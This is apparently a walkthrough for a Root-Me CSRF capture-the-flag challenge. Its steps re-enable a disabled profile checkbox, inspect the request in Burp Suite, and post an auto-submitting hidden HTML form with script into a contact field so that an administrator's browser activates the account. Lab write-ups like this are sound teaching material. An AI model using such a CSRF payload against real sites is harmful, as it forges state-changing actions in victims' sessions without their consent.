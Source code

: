 1. [Open the task](http://challenge01.root-me.org/web-client/ch22/index.php)
2. [Register an account](http://challenge01.root-me.org/web-client/ch22/index.php?action=register)
3. [Log in to your account](http://challenge01.root-me.org/web-client/ch22/index.php?action=login)
4. [Go to the profile page](http://challenge01.root-me.org/web-client/ch22/index.php?action=profile)
5. Make the checkbox visible through the developer tool

It was: ```<input type="checkbox" name="status" disabled="">```

Become: ```<input type="checkbox" name="status">```

6. Launch **Burp Suite::Proxy::HTTP history**
7. Click the **Submit** button and check the request data
8. [Go to the Contact tab](http://challenge01.root-me.org/web-client/ch22/index.php?action=contact)
9. Enter in the **email** field: **_"username"_** + **_"@mail"_**
10. Enter the following into the **Comment** form:

```
<form name="csrf" action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" enctype="multipart/form-data"> 
<input type="hidden" name="username" value="YOUR_USERNAME"> 
<input type="hidden" name="status" value="on"> 
</form> 
<script>document.csrf.submit()</script>
```

11. If everything is done correctly, you will see the following message: 

>Your message has been posted. The administrator will contact you later.

12. [Checking the Private tab](http://challenge01.root-me.org/web-client/ch22/index.php?action=private), you can get a **flag**